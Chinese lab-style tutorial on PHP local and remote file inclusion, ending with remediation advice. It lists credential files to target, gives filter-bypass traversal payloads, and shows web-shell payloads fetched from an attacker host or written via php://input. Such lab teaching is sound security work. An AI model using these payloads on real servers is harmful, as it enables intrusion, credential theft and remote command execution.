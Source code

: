 [TOC]

## 一、文件包含漏洞必知

### 1.造成漏洞的函数

**file_get_contents**

### 2.漏洞使用示例

```http
/get.php?file=../../../../etc/passwd
```

### 3.重要文件路径

| **位置**                    | **描述**                                                     |
| --------------------------- | ------------------------------------------------------------ |
| /etc/issue                  | 包含要在登录提示之前打印的消息或系统标识。                   |
| /etc/profile                | 控制系统范围的默认变量，例如导出变量、文件创建掩码 （umask）、终端类型、邮件消息以指示新邮件何时到达 |
| /proc/version               | 指定 Linux 内核的版本                                        |
| /etc/passwd                 | 具有访问系统的所有注册用户                                   |
| /etc/shadow                 | 包含有关系统用户密码的信息                                   |
| /root/.bash_history         | 包含 root 用户的历史记录命令                                 |
| /var/log/dmessage           | 包含全局系统消息，包括系统启动期间记录的消息                 |
| /var/mail/root              | root 用户的所有电子邮件                                      |
| /root/.ssh/id_rsa           | 服务器上 root 或任何已知有效用户的私有 SSH 密钥              |
| /var/log/apache2/access.log | 对 Apache Web 服务器的访问请求                               |
| C：\boot.ini                | 包含具有 BIOS 固件的计算机的启动选项                         |

## 二、本地文件包含过滤器绕过（LFI）

### 2.1指定文件类型过滤

该类过滤，会在处理文件请求前，给文件指定类型，如  **.php/.img/.html**  等。如请求访问  **../../../etc/passwd**  文件,在服务器中处理的文件名则可能是  **../../../etc/passwd.php**  。

#### 	2.1.1 过滤结果展示

```shell
#使用的文件包含路径如下
../../../etc/passwd

File Content Preview of ../../../../etc/passwd
#服务器处理异常如下
Warning: include(includes/../../../../etc/passwd.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab3.php on line 26
```

#### 	2.1.2 过滤绕过方法

可通过在**文件名末尾加上  %00  或  /.  **来**忽略**后**服务器**中进行处理的**文件后缀名**，如下：

```http
/get.php?file=../../../../etc/passwd%00
/get.php?file=../../../../etc/passwd/.
```

### 2.2 关键字过滤

此类过滤，用于**对文件设限制**.

#### 	2.2.1 过滤结果展示

```python
#使用的文件包含路径如下
../../../etc/passwd

File Content Preview of ../../../../etc/passwd
#结果展示如下

You are not allowed to see source files! 
```

#### 	2.2.2 过滤绕过方法

绕过方法，同4.1.2

```http
/get.php?file=../../../../etc/passwd%00
/get.php?file=../../../../etc/passwd/.
```

### 2.3 过滤字符" ../ "

此类过滤仅匹配一遍字符串中的所有"**../**"。 

#### 	2.3.1 过滤结果展示

```python
#使用的文件包含路径如下
../../../../etc/passwd

#结果展示如下，文件包含路径中的 ../ 全部被过滤

Warning: include(includes/etc/passwd) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab5.php on line 28
```

#### 	2.3.2 过滤绕过方法

可通过拼接../字符的方法对文件包含路径进行绕过，绕过方法如下：

```http
/get.php?file=....//....//....//....//etc/passwd
```

### 2.4 非指定目录过滤

此类过滤会限制被访问的文件夹，不在指定文件夹下的文件被访问时，访问请求会被过滤。

#### 2.4.1过滤结果展示

```python
#使用的文件包含路径如下
../../../../etc/passwd

#结果展示如下，文件包含路径中的 ../ 全部被过滤

Access Denied! Allowed files at THM-profile folder only! 
```

#### 2.4.2过滤绕过方法

可通过在路径前添加指定文件夹的方式绕过此过滤，绕过方法如下：

```python
/lab6.php?file=THM-profile/../../../../etc/passwd
```

## 三、远程文件收录（RFI）

将本地文件包含的路径更改为url如下：

```python
本地文件包含
http://10.10.206.143/playground.php?file=../../../../etc/passwd
远程文件包含
http://10.10.206.143/playground.php?file=http://10.11.78.91:8080/cat.txt
```



## 四、利用文件包含getshell

#### 4.1远程文件包含利用

远程访问的url地址下，存放木马文件，内容如下：

```php
#PHP
hello world
<?PHP system($_GET['cmd']);?>
```

![image-20240326130808728](./assets/image-20240326130808728.png)

并在访问时，使用如下URL：

```url
http://xxx/[文件包含漏洞文件]?[参数]=[url]?cmd=[commond]

如：
http://10.10.76.222/playground.php?file=http://10.11.78.91:8080/cat.txt&cmd=whoami
```



#### 4.1伪协议注入

1.确认存在伪协议注入：如果攻击目标开启了**allow_url_include**配置，可尝试使用伪协议**php://input**尝试进行注入，构建POST请求如下：

```http
POST xxxxx?=php://input HTTP/1.1
xxxxxxxxxxx
xxxxxxxxxxx
xxxxxxxxxxx

<?php phpinfo();?>
```

效果如下：

![image-20240326131401449](./assets/image-20240326131401449.png)

2.确认后利用，将post中的请求数据提换为如下数据：

```python
POST xxxxx?=php://input HTTP/1.1
xxxxxxxxxxx
xxxxxxxxxxx
xxxxxxxxxxx

<?php fputs(fopen('my_shell.php','w'),'<?php system($_GET["cmd"]);?>');?>
```

3.在文件所在的文件夹下

使用以下url请求，来执行命令

```python
/my_shell.php?cmd=whoami
```



## 五、修复建议

作为开发人员，了解 Web 应用程序漏洞、如何查找漏洞以及预防方法非常重要。为了防止文件包含漏洞，一些常见的建议包括：

1. 使用最新版本更新系统和服务，包括 Web 应用程序框架。
2. 关闭 PHP 错误以避免泄露应用程序的路径和其他可能泄露的信息。
3. Web 应用程序防火墙 （WAF） 是帮助缓解 Web 应用程序攻击的不错选择。
4. 如果您的 Web 应用不需要某些会导致文件包含漏洞的 PHP 功能，请禁用这些功能，例如打开allow_url_fopen和allow_url_include。
5. 仔细分析 Web 应用程序，只允许有需要的协议和 PHP 包装器。
6. 永远不要相信用户输入，并确保对文件包含实施正确的输入验证。
7. 实现文件名和位置的白名单以及黑名单。
